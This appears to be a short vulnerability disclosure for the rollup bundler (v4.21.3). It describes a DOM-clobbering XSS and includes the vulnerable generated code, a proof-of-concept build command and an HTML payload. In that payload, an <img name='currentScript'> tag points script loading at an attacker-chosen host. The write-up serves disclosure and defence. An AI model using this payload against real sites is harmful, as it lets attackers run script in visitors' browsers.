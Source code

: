 ## rollup

### Meta

+ Library: rollup
+ Version: v4.21.3
+ Stars: 25.2K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: N/A
+ Status: N/A
+ Foundby: TheHulk

### Library

URL: https://github.com/rollup/rollup

Bundlers run locally

### Vulnerable Code Snippet

```javascript
var _documentCurrentScript = typeof document !== 'undefined' ? document.currentScript : null;
var s = document.createElement('script');
s.src = (typeof document === 'undefined' ? require('u' + 'rl').pathToFileURL(__filename).href : (_documentCurrentScript && _documentCurrentScript.src || new URL('bundle.js', document.baseURI).href)) + 'extra.js';
document.head.append(s);
```

## PoC

as an example, bundle the js below: `rollup main.js --format cjs --file bundle.js`.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

<!-- ```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
``` -->

```html
<!--Library-->
<script src="bundle.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999"></img>
<!--Payload-->
```

